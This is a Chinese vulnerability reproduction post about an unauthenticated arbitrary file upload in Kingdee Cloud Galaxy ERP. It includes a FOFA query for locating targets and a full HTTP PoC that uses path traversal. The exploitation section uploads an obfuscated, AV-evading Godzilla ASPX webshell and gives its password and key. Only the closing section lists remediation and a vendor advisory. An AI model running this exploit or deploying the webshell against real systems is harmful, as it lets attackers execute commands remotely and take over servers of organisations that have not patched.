

# 金蝶云星空任意文件上传漏洞复现（0day）

### 0x01 产品简介

   金蝶云星空是一款云端企业资源管理（ERP）软件，为企业提供财务管理、供应链管理以及业务流程管理等一体化解决方案。金蝶云·星空聚焦多组织，多利润中心的大中型企业，以 “开放、标准、社交”三大特性为数字经济时代的企业提供开放的 ERP 云平台。服务涵盖：财务、供应链、智能制造、阿米巴管理、全渠道营销、电商、HR、企业互联网服务，帮助企业实现数字化营销新生态及管理重构等，提升企业数字化能力。

### 0x02 漏洞概述

   由于金蝶云星空/k3cloud/SRM/ScpSupRegHandler接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传任意文件，上传Webshell文件可远程执行恶意命令，导致服务器失陷。

### 0x03 影响范围

 金蝶云星空企业版私有云、企业版私有云（订阅）、标准版私有云（订阅）三个产品

 涉及版本：V6.2(含17年12月补丁) 至 V8.1(含23年9月补丁)

### 0x04 复现环境

FOFA：app="Kingdee-K3-cloud"


### 0x05 漏洞复现 

```cobol
https://your-ip/k3cloud/SRM/ScpSupRegHandler
```


出现以上情况基本可以判断存在漏洞 

PoC

```cobol
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2023
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/1.txt"
Content-Type: text/plain

test
--2ac719f8e29343df94aa4ab49e456061--
```


验证url

```cobol
https://your-ip/K3Cloud/uploadfiles/1.txt
```

 **漏洞利用**

上传哥斯拉免杀马子

```cobol
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2023
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/1.aspx."
Content-Type: text/plain

<%@ PAge LaNgUagE="C#"%>
<%try {
string eduxuza9B = \u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000041\U00000053\U00000043\U00000049\U00000049\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.ASCII.GetString(\u0053\u0079\u0073\u0074\u0065\u006D.\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074.\U00000046\U00000072\U0000006F\U0000006D\U00000042\U00000061\U00000073\U00000065\U00000036\U00000034\U00000053\U00000074\U00000072\U00000069\U0000006E\U00000067(\u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000041\U00000053\U00000043\U00000049\U00000049\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.ASCII.GetString(\u0053\u0079\u0073\u0074\u0065\u006D.\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074.\U00000046\U00000072\U0000006F\U0000006D\U00000042\U00000061\U00000073\U00000065\U00000036\U00000034\U00000053\U00000074\U00000072\U00000069\U0000006E\U00000067(\u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000041\U00000053\U00000043\U00000049\U00000049\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.ASCII.GetString(\u0053\u0079\u0073\u0074\u0065\u006D.\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074.\U00000046\U00000072\U0000006F\U0000006D\U00000042\U00000061\U00000073\U00000065\U00000036\U00000034\U00000053\U00000074\U00000072\U00000069\U0000006E\U00000067("VmtkR2VrOVhWbms9"))))));
string eduZ56LwrZHI9ld = "dafc5ab8f2ac54a5";
string eduDEutot9yNyarAo = \u0053\u0079\u0073\u0074\u0065\u006D./*L6WJ2*/\u0042\u0069\u0074\u0043\u006F\u006E\u0076\u0065\u0072\u0074\u0065\u0072/*4nEWoG5Yc6lSt*/.ToString(new /*iPJVi74rkz*/\u0053\u0079\u0073\u0074\u0065\u006D.\u0053\u0065\u0063\u0075\u0072\u0069\u0074\u0079/*c*/.\u0043\u0072\u0079\u0070\u0074\u006F\u0067\u0072\u0061\u0070\u0068\u0079.\U0000004D\U00000044\U00000035\U00000043\U00000072\U00000079\U00000070\U00000074\U0000006F\U00000053\U00000065\U00000072\U00000076\U00000069\U00000063\U00000065\U00000050\U00000072\U0000006F\U00000076\U00000069\U00000064\U00000065\U00000072()/*K7zpwO*/.ComputeHash/*11R7nPOTle3a72N*/(\u0053\u0079\u0073\u0074\u0065\u006D.Text./*64M5C4gsUKhbun*/\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(eduxuza9B + eduZ56LwrZHI9ld)))./*T2liIHCt0RliP*/Replace("-", "");
byte[] eduetFU6cWkOrXfou = \u0053\u0079\u0073\u0074\u0065\u006D./*RuozGn9*/\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074/*fQBN*/./*govV9K3836ktx*/\U00000046\U00000072\U0000006F\U0000006D\U00000042\U00000061\U00000073\U00000065\U00000036\U00000034\U00000053\U00000074\U00000072\U00000069\U0000006E\U00000067/*b09*/(Context.Request[eduxuza9B]);
eduetFU6cWkOrXfou = new \u0053\u0079\u0073\u0074\u0065\u006D/*faupIKw*/.\u0053\u0065\u0063\u0075\u0072\u0069\u0074\u0079.\u0043\u0072\u0079\u0070\u0074\u006F\u0067\u0072\u0061\u0070\u0068\u0079/*J*/./*GDIGkMHRkjC*/\u0052\u0069\u006A\u006E\u0064\u0061\u0065\u006C\u004D\u0061\u006E\u0061\u0067\u0065\u0064()./*6*/CreateDecryptor(\u0053\u0079\u0073\u0074\u0065\u006D./*0BkrM46rdcz2g*/Text.\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default/*yOqw*/.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(eduZ56LwrZHI9ld), \u0053\u0079\u0073\u0074\u0065\u006D.Text./*5Aj2SA0wCUoSaWo*/\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(eduZ56LwrZHI9ld))./*DlBUZ*/\u0054\u0072\u0061\u006E\u0073\u0066\u006F\u0072\u006D\u0046\u0069\u006E\u0061\u006C\u0042\u006C\u006F\u0063\u006B(eduetFU6cWkOrXfou, 0, eduetFU6cWkOrXfou.Length);
if (Context./*CWx*/\U00000053\U00000065\U00000073\U00000073\U00000069\U0000006F\U0000006E["payload"] == null)
{Context/*fDESu*/.\U00000053\U00000065\U00000073\U00000073\U00000069\U0000006F\U0000006E["payload"] = (/*5HQm8*/\u0053\u0079\u0073\u0074\u0065\u006D.\U00000052\U00000065\U00000066\U0000006C\U00000065\U00000063\U00000074\U00000069\U0000006F\U0000006E./*twUo*/\u0041\u0073\u0073\u0065\u006D\u0062\u006C\u0079)typeof(\u0053\u0079\u0073\u0074\u0065\u006D/*F01kO8*/.\U00000052\U00000065\U00000066\U0000006C\U00000065\U00000063\U00000074\U00000069\U0000006F\U0000006E.\u0041\u0073\u0073\u0065\u006D\u0062\u006C\u0079).GetMethod("Load", new \u0053\u0079\u0073\u0074\u0065\u006D.Type[] { typeof(byte[]) })./*2aa*/Invoke(null, new object[] { eduetFU6cWkOrXfou });;}
else { \u0053\u0079\u0073\u0074\u0065\u006D.\u0049\u004F./*rKXLUQZZYLwHF*/MemoryStream eduMgg = new \u0053\u0079\u0073\u0074\u0065\u006D.\u0049\u004F/*7QDZ5uLlpXBTAb*/.MemoryStream();
object edus = ((\u0053\u0079\u0073\u0074\u0065\u006D.\U00000052\U00000065\U00000066\U0000006C\U00000065\U00000063\U00000074\U00000069\U0000006F\U0000006E.\u0041\u0073\u0073\u0065\u006D\u0062\u006C\u0079/*P0IYS5Q7BNf*/)Context.\U00000053\U00000065\U00000073\U00000073\U00000069\U0000006F\U0000006E/*fduIuRY*/["payload"]).CreateInstance("LY");
edus.\U00000045\U00000071\U00000075\U00000061\U0000006C\U00000073(Context);
edus.\U00000045\U00000071\U00000075\U00000061\U0000006C\U00000073/*Tc8rLDwxy12O*/(eduMgg);
edus.\U00000045\U00000071\U00000075\U00000061\U0000006C\U00000073(eduetFU6cWkOrXfou);
edus.ToString()/*DISklD7l*//*BA6T9m*/;
byte[] eduw22mzc8owXmUj = eduMgg.ToArray();
Context.\u0052\u0065\u0073\u0070\u006F\u006E\u0073\u0065/*ErQa*/.Write(eduDEutot9yNyarAo.\u0053\u0075\u0062\u0073\u0074\u0072\u0069\u006E\u0067(0, 16));
Context.\u0052\u0065\u0073\u0070\u006F\u006E\u0073\u0065.Write(\u0053\u0079\u0073\u0074\u0065\u006D.\U00000043\U0000006F\U0000006E\U00000076\U00000065\U00000072\U00000074./*KtaTNxWNe*/ToBase64String/*IMhl*/(new \u0053\u0079\u0073\u0074\u0065\u006D./*axnyDwt*/\u0053\u0065\u0063\u0075\u0072\u0069\u0074\u0079.\u0043\u0072\u0079\u0070\u0074\u006F\u0067\u0072\u0061\u0070\u0068\u0079./*uAkDhdG4peLyFcc*/\u0052\u0069\u006A\u006E\u0064\u0061\u0065\u006C\u004D\u0061\u006E\u0061\u0067\u0065\u0064().CreateEncryptor/*g7gLO2k736Ekv*/(\u0053\u0079\u0073\u0074\u0065\u006D.Text.\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default/*SA3gS2efSlJwI*/.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(eduZ56LwrZHI9ld), \u0053\u0079\u0073\u0074\u0065\u006D.Text./*7H5z1nsPqheek*/\U00000045\U0000006E\U00000063\U0000006F\U00000064\U00000069\U0000006E\U00000067.Default.\U00000047\U00000065\U00000074\U00000042\U00000079\U00000074\U00000065\U00000073(eduZ56LwrZHI9ld)).\u0054\u0072\u0061\u006E\u0073\u0066\u006F\u0072\u006D\u0046\u0069\u006E\u0061\u006C\u0042\u006C\u006F\u0063\u006B/*SMDpXi8*/(eduw22mzc8owXmUj, 0, eduw22mzc8owXmUj.Length)));
Context/*v*/.\u0052\u0065\u0073\u0070\u006F\u006E\u0073\u0065.Write(eduDEutot9yNyarAo.\u0053\u0075\u0062\u0073\u0074\u0072\u0069\u006E\u0067(16));}}
catch (\u0053\u0079\u0073\u0074\u0065\u006D.Exception) {};
%>
--2ac719f8e29343df94aa4ab49e456061--
```

PS：密码:Tas9er 密钥:6g3hJEXK2kN 有效载荷:CShapDynamicPayload 加密器:CSHAP\_AES\_BASE64 


尝试连接



###  0x06 修复建议 

 文件上传接口处设置强认证访问权限

 补丁修复方案：

[关于金蝶云星空私有云存在文件上传漏洞修复公告（KDPSIRT-2023-00023）](https://vip.kingdee.com/school/detail/505412093244235264?productLineId=1 "关于金蝶云星空私有云存在文件上传漏洞修复公告（KDPSIRT-2023-00023）")
